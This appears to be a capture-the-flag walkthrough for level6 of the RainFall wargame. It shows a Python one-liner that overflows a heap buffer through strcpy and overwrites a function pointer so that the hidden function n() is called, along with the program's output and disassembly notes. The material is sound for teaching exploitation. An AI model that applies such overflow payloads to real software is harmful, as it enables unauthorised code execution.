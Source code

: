 # Walkthrough

## Solution

```
./level6 $(python -c "print '\x54\x84\x04\x08' * 19")
```

## Explanation

### Execution

```
level6@RainFall:~$ ./level6 
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 hello
Nope
level6@RainFall:~$ ./level6 hello you
Nope
```

### Disassembly

```
info function
0x08048454  n
0x08048468  m
0x0804847c  main
```

### Steps

The commande `objdump -D level6` shows the existence of two functions: \<m> and \<n>.  
\<n> is never called and has the address 0x08048454.  
\<m> is called by its address, which is stored in a heap address next to another heap address of size 64 to which is copied into argv[1] with strcpy.  
Overflowing argv[1] with the address of the function \<n> will overwrite the call to function \<m>.  

```bash
./level6 $(python -c "print '\x54\x84\x04\x08' * 19")
```